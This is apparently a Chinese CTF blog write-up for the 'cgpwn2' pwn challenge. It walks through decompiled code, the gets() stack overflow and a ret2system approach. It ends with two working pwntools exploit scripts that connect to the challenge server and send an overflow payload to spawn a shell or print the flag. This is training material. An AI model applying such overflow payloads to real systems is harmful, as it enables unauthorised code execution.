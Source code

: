```yaml
---
layout: post
title:  cgpwn2
date:   2020-08-23 00:01:01 +0300
image:  2020-08-23-silhouette.jpg
tags:   [ctf,pwn,CGCTF,攻防世界]
---
```


ida打开程序，进入主函数查看代码

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  hello();
  puts("thank you");
  return 0;
}
```

进入hello()函数

```assembly
char *hello()
{
  char *v0; // eax
  signed int v1; // ebx
  unsigned int v2; // ecx
  char *v3; // eax
  char s; // [esp+12h] [ebp-26h]
  int v6; // [esp+14h] [ebp-24h]

  v0 = &s;
  v1 = 30;
  if ( (unsigned int)&s & 2 )
  {
    *(_WORD *)&s = 0;
    v0 = (char *)&v6;
    v1 = 28;
  }
  v2 = 0;
  do
  {
    *(_DWORD *)&v0[v2] = 0;
    v2 += 4;
  }
  while ( v2 < (v1 & 0xFFFFFFFC) );
  v3 = &v0[v2];
  if ( v1 & 2 )
  {
    *(_WORD *)v3 = 0;
    v3 += 2;
  }
  if ( v1 & 1 )
    *v3 = 0;
  puts("please tell me your name");
  fgets(name, 50, stdin);
  puts("hello,you can leave some message here:");
  return gets(&s);
}
```

最开始的一部分代码是没什么用的，关键就是最后四行代码。

gets()函数能造成溢出，可以利用。

查看有没有可以利用的其他函数

```assembly
int pwn()
{
  return system("echo hehehe");
}
```

这个函数调用了system()函数，但是参数并不是我们所期望的"/bin/sh"或者"cat flag"。所以可以使用fgets将/bin/sh字符串读入bss区，然后将返回地址覆盖为system函数，参数布置为name的首地址。

```assembly
from pwn import *

io = remote("220.249.52.133",43490)
payload = "A" * (0x26 + 4) + p32(0x08048420)
payload += p32(0xdeadbeef) + p32(0x0804A080)
# system()返回地址
io.recvuntil("please tell me your name")
io.sendline("/bin/sh")
io.recvuntil("hello,you can leave some message here:")
io.sendline(payload)
io.interactive()
```

或者

```
from pwn import *

io = remote("220.249.52.133",43490)
payload = "A" * (0x26 + 4) + p32(0x08048420) + p32(0xdeadbeef) + p32(0x0804A080)
io.recvuntil("please tell me your name")
io.sendline("cat flag")
io.recvuntil("hello,you can leave some message here:")
io.sendline(payload)
io.interactive()
```


